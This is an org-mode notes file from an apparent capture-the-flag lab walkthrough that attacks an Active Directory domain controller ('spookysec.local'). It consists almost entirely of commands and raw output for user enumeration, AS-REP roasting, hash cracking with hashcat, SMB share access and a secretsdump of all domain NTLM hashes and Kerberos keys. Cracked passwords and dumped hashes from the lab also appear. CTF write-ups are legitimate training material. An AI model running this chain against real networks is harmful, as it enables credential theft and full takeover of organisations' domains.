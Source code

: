 #+TITLE: ad

* enum4linux

┌─[✗]─[root@parrot-virtual]─[~/haxx/ctf/thm/ad]
└──╼ # enum4linux -U -o 10.10.39.110
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/  ) on Sat Nov 14 09:26:49 2020

 ==========================
 |    Target Information    |
 ==========================
 Target ........... 10.10.39.110
 RID Range ........ 500-550,1000-1050
 Username ......... ''
 Password ......... ''
 Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


  ====================================================
  |    Enumerating Workgroup/Domain on 10.10.39.110    |
 ====================================================
 [E] Can't find workgroup/domain


  =====================================
  |    Session Check on 10.10.39.110    |
 =====================================
 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 437.
 [+] Server 10.10.39.110 allows sessions using username '', password ''
 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 451.
 [+] Got domain/workgroup name:

  ===========================================
  |    Getting domain SID for 10.10.39.110    |
 ===========================================
 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 359.
 : THM-AD
 Domain Sid: S-1-5-21-3591857110-2884097990-301047963
 [+] Host is part of a domain (not a workgroup)

  ======================================
  |    OS information on 10.10.39.110    |
 ======================================
 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 458.
 Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
 [+] Got OS info for 10.10.39.110 from smbclient:
 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 467.
 [+] Got OS info for 10.10.39.110 from srvinfo:
 Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED

  =============================
  |    Users on 10.10.39.110    |
 =============================
 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 866.
 [E] Couldn't find users using querydispinfo: NT_STATUS_ACCESS_DENIED

 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 881.
 [E] Couldn't find users using enumdomusers: NT_STATUS_ACCESS_DENIED
 enum4linux complete on Sat Nov 14 09:27:05 2020

* /etc/hosts
- added the ip and the TLD for the Active Directory Domain
  : spookysec.local

* kerbrute
-interesting usernames
: svc-admin
: backp

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/ad]
└──╼ # ./kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

               / /_____  _____/ /_  _______  __/ /____
              / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
             / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
            /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

        Version: v1.0.3 (9dad6e1) - 11/14/20 - Ronnie Flathers @ropnop

        2020/11/14 09:50:35 >  Using KDC(s):
        2020/11/14 09:50:35 >   spookysec.local:88

        2020/11/14 09:50:35 >  [+] VALID USERNAME:       james@spookysec.local
        2020/11/14 09:50:40 >  [+] VALID USERNAME:       svc-admin@spookysec.local
        2020/11/14 09:50:41 >  [+] VALID USERNAME:       robin@spookysec.local
        2020/11/14 09:50:46 >  [+] VALID USERNAME:       James@spookysec.local
        2020/11/14 09:50:57 >  [+] VALID USERNAME:       darkstar@spookysec.local
        2020/11/14 09:50:58 >  [+] VALID USERNAME:       administrator@spookysec.local
        2020/11/14 09:51:00 >  [+] VALID USERNAME:       backup@spookysec.local
        2020/11/14 09:51:01 >  [+] VALID USERNAME:       paradox@spookysec.local
        2020/11/14 09:51:05 >  [+] VALID USERNAME:       JAMES@spookysec.local
        2020/11/14 09:51:06 >  [+] VALID USERNAME:       Robin@spookysec.local
        2020/11/14 09:51:14 >  [+] VALID USERNAME:       Administrator@spookysec.local
        2020/11/14 09:51:28 >  [+] VALID USERNAME:       Darkstar@spookysec.local
        2020/11/14 09:51:32 >  [+] VALID USERNAME:       Paradox@spookysec.local
        2020/11/14 09:51:46 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
        2020/11/14 09:51:50 >  [+] VALID USERNAME:       ori@spookysec.local
        2020/11/14 09:51:58 >  [+] VALID USERNAME:       ROBIN@spookysec.local
        2020/11/14 09:52:47 >  Done! Tested 100000 usernames (16 valid) in 132.607 seconds

#+end_src

* impacket GetNPUsers.py

$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:c1b863161c61cf9712fb1fb2afede37c$4b794336bad289c4d897b9aab2a9d23b773096603a78589dcd71ae6f2364407d8cb5b51f7048d21188b6a6f86dcef38f43f2b263dfbd7c8a3788792f8416d7884ed5a8e0c1f74d5b9cc874b1bf225edfd1f8b56ae0535a2ab3c867c33b36acd478cce7293b71738eeb80fd8239a739773d55aebe584358eb01ced223c5efdbe3d0254b5d8e1970910d3a2244d984a80b1e1e011c21f3dc29f8387867cc74a3b2f2caa77982a48b334b4f322dc14cf16eb6754c53eb01e592986d19dc0efeb90fd275bbb4449c238d9ff63e47394c4e9871d2dd0aedaea76b17fa0f5ce07b8c7fdfc3c55990b9f7d9a572a71eb7e9f01e87d9

┌─[✗]─[root@parrot-virtual]─[~/haxx/ctf/thm/ad/impacket]
└──╼ # python3 GetNPUsers.py spookysec.local/ -no-pass -usersfile ../users
Impacket v0.9.22.dev1+20201112.141202.d1ced941 - Copyright 2020 SecureAuth Corporation

[-] User james@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:c1b863161c61cf9712fb1fb2afede37c$4b794336bad289c4d897b9aab2a9d23b773096603a78589dcd71ae6f2364407d8cb5b51f7048d21188b6a6f86dcef38f43f2b263dfbd7c8a3788792f8416d7884ed5a8e0c1f74d5b9cc874b1bf225edfd1f8b56ae0535a2ab3c867c33b36acd478cce7293b71738eeb80fd8239a739773d55aebe584358eb01ced223c5efdbe3d0254b5d8e1970910d3a2244d984a80b1e1e011c21f3dc29f8387867cc74a3b2f2caa77982a48b334b4f322dc14cf16eb6754c53eb01e592986d19dc0efeb90fd275bbb4449c238d9ff63e47394c4e9871d2dd0aedaea76b17fa0f5ce07b8c7fdfc3c55990b9f7d9a572a71eb7e9f01e87d9
[-] User robin@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User James@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User backup@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paradox@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User JAMES@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Robin@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Darkstar@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Paradox@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User DARKSTAR@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ori@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ROBIN@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set

* hashcat

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/ad]
└──╼ # hashcat -a 0 -m 18200 18200.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
 Device #1: pthread-Intel(R) Core(TM) i7-10875H CPU @ 2.30GHz, 4362/4426 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
 Zero-Byte
 Not-Iterated
 Single-Hash
 Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 134 MB

Dictionary cache built:
 Filename..: /usr/share/wordlists/rockyou.txt
 Passwords.: 14344392
 Bytes.....: 139921507
 Keyspace..: 14344385
 Runtime...: 1 sec

$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:c1b863161c61cf9712fb1fb2afede37c$4b794336bad289c4d897b9aab2a9d23b773096603a78589dcd71ae6f2364407d8cb5b51f7048d21188b6a6f86dcef38f43f2b263dfbd7c8a3788792f8416d7884ed5a8e0c1f74d5b9cc874b1bf225edfd1f8b56ae0535a2ab3c867c33b36acd478cce7293b71738eeb80fd8239a739773d55aebe584358eb01ced223c5efdbe3d0254b5d8e1970910d3a2244d984a80b1e1e011c21f3dc29f8387867cc74a3b2f2caa77982a48b334b4f322dc14cf16eb6754c53eb01e592986d19dc0efeb90fd275bbb4449c238d9ff63e47394c4e9871d2dd0aedaea76b17fa0f5ce07b8c7fdfc3c55990b9f7d9a572a71eb7e9f01e87d9:management2005

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.L...1e87d9
Time.Started.....: Sat Nov 14 10:29:51 2020 (6 secs)
Time.Estimated...: Sat Nov 14 10:29:57 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   963.3 kH/s (8.39ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 5849088/14344385 (40.78%)
Rejected.........: 0/5849088 (0.00%)
Restore.Point....: 5832704/14344385 (40.66%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: mandj4e -> mama0312

Started: Sat Nov 14 10:29:23 2020
Stopped: Sat Nov 14 10:29:59 2020

* smbclient
- decoding
  ┌─[root@parrot-virtual]─[~/haxx/ctf/thm/ad]
  └──╼ # echo YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw > base64_encoded && cat base64_encoded | base64 -d > decoded && cat decoded
  : backup@spookysec.local:backup2517860

-file  backup_credentials.txt
: 3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

: smbclient -L 10.10.39.110 -U svc-admin
┌─[root@parrot-virtual]─[~/haxx/ctf/thm/ad]
└──╼ # smbclient -L 10.10.39.110 -U svc-admin
Enter WORKGROUP\svc-admin's password:

 Sharename       Type      Comment
 ---------       ----      -------
 ADMIN$          Disk      Remote Admin
 backup          Disk
 C$              Disk      Default share
 IPC$            IPC       Remote IPC
 NETLOGON        Disk      Logon server share
 SYSVOL          Disk      Logon server share
 SMB1 disabled -- no workgroup available

: smbclient \\\\10.10.39.110\\backup -U svc-admin

┌─[✗]─[root@parrot-virtual]─[~/haxx/ctf/thm/ad]
└──╼ # smbclient \\\\10.10.39.110\\backup -U svc-admin
Enter WORKGROUP\svc-admin's password:
Try "help" to get a list of possible commands.
smb: \> ls
.                                   D        0  Sat Apr  4 15:08:39 2020
..                                  D        0  Sat Apr  4 15:08:39 2020
backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

8247551 blocks of size 4096. 4021973 blocks available
smb: \>

* impacket secretsdump.py
- admin
  :  Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::

┌─[✗]─[root@parrot-virtual]─[~/haxx/ctf/thm/ad/impacket]
└──╼ # python3 secretsdump.py -dc-ip 10.10.39.110 spookysec.local/backup@10.10.39.110
Impacket v0.9.22.dev1+20201112.141202.d1ced941 - Copyright 2020 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:f6360805011a6e136aa3a7f148606c79:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:663cd6165560728d68523414176931b116e4cc362a1660574546c51c34eba7d7
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:a8937dc0a1448d9c6ff87e04fcef1534
ATTACKTIVEDIREC$:des-cbc-md5:497a40a1fd4a616b
[*] Cleaning up...

